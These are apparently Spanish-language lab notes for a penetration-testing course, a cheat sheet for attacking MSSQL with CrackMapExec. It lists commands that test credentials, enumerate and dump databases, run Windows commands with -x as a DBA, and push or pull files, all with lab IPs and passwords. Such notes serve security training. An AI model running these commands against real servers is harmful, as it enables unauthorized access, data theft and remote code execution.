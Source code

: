 # BF

Hay 3 formas de probar autenticarse contra MSSQL:

1) Con usuario de dominio (por defecto)
2) Con usuario local
3) COn usuario de MSSQL

### Con usuario de dominio 
Hacemos la llamada con CME como viene

### Con usuario local

agregamos como domionio el "."

    crackmapexec mssql 10.129.203.121 -u julio grace -p Inlanefreight01! -d .

### Con usuario de MSSQL
Agregamos la flag: --local-auth

    crackmapexec mssql 10.129.203.121 -u julio grace  -p Inlanefreight01! --local-auth

## ¡¡Si el usuario dice pwnd! quiere decir que es DBA!!

# Footprinting

### Obtener DBs
    crackmapexec mssql 10.129.203.121 -u grace -p Inlanefreight01! -q "SELECT name FROM master.dbo.sysdatabases"

### Obtener nombres de las tablas

    crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth -q "SELECT table_name from <db>.INFORMATION_SCHEMA.TABLES"

### Dumpear una tabla

    crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth -q "SELECT * from [db].[dbo].<tabla>" 

# Ejecutar comandos de windows
Si el user es DBA podemos ejecutar comandos con la flag -x

    crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth -x whoami

# Traspso de archivos

### Para enviar un archivo

    crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth --put-file <path_archivo_local> <path_completo_destino>

### Para descargar un archivo

    crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth --get-file <path_file> <file_a_crear>
